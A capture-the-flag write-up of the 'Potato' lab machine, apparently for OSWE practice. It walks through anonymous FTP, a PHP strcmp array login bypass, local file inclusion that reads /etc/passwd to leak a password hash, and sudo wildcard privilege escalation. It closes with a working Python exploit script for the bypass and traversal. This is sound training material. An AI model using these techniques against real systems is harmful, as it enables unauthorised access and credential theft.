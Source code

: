 # Potato

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:23 WEST
Nmap scan report for 10.0.2.37
Host is up (0.00050s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.91 seconds
````

## FTP at port 2112
Anonymous login worked, let's take a look at those files with 'get _filename_' for each

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/67b7bae3-cb69-4745-a3d8-e0b4d1d76242)

welcome.msg

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/0a002d29-258a-4eb2-9952-9e1b86d73bb3)

index.php.bak

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d6eb5193-1380-4a85-92fb-b482dcc83f1b)

Seems like we're about to face a fun code review challenge

## Port 80

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bce23582-2bb0-468b-bc10-3b59dcf3ecb2)


I found the directory /potato, which is empty, and /admin which shows a login form

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/af94caa1-7aa6-4972-b337-a36b1ade8a4d)

This is the likely vulnerable code

````
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
````

The first condition just forces us to set the GET parameter 'login' to 1, that's farily easy to do and I know I'm getting past that part since I can get the "Bad login/password" error.

The second condition is only passed if the POST parameter 'username' is set to 'admin' AND the POST parameter 'password' is set to the value of the parameter $pass (which is NOT 'potato', tested)

We need to figure out something for the password parameter that strcmp-ed with a normal string (i think?) results in a 0. From the PHP strcmp documentation

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bf708e16-cc15-4ae5-ab86-99d47fcc6020)

This is the important bit

``strcmp("foo", array()) => NULL + PHP Warning``

So, if we can send an array and compare it to the password, which should be a string, the result is NULL. For some PHP reason, NULL == 0 is true.

Hell yeah!!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a6f5ecd5-238f-418c-9b2e-7ed63686bdc1)

See that cookie value? That's the password, so we can easily login in the browser

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fb29a47c-e969-4472-9e8b-54d5e6d8e2b9)


This page in specific is vulnerable to LFI

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/eb2e5b39-701e-4724-a0f8-50ff560d6f38)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2cece81-c444-43d6-8b3d-728beb023512)


Ups there's a hash leak there at the bottom of the file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d8ebbe6a-9678-41ad-9a75-384f7dfc6659)


And it was cracked immediately

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fd653969-1267-4a83-9d78-f8a075ea825a)


## Privilege Escalation

These work for SSH

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/99386bcf-f791-484e-a1a0-82addac4fd76)


First flag right here

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/22ea7b04-15b8-497e-a0b5-097e5eb6b0ca)


The home folder of the user florianges is empty, but we have interesting sudo permissions

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8bc441e5-9ec5-4c92-9313-fcd47d4084de)

Calling clear.sh with nice just clears the terminal. The id script calls id. So I'll assume that /bin/nice simply runs a command.

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f1de4c96-d8a1-46b2-a5ba-6524f4a96190)

If I can run with sudo any script that's inside /notes/....

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bdffc9a1-c995-43f1-946a-dc9100af7023)

It does fit the wildcard regex :D

Rooted!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/4ef6b083-18bf-4b57-b1f2-9ebec634be94)

___

Here's the script to extract that initial hash. The rest is a bit out of scope for the OSWE (cracking a hash and logging in via SSH)
````
import sys, requests, re

def main():
	# Login bypass with array as param
	session = requests.Session()
	url = server + "/admin/index.php?login=1"
	data = b"username=admin&password[]="

	r = session.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})

	# Exploit LFI to fetch /etc/passwd and grep hash. Next step is to crack it and log in via SSH (out of scope for OSWE)
	url = server + "/admin/dashboard.php?page=log"
	data = b"file=../../../../../../../etc/passwd"
	r = session.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
	hash = re.findall(r'webadmin:(.*?):', r.text)[0]
	print("Found webadmin hash: " + hash)


if __name__ == '__main__':
	try:
		server = sys.argv[1].strip()
	except:
		print("[-] Usage: %s serverIP:port", sys.argv[0])
		sys.exit()
	main()
````

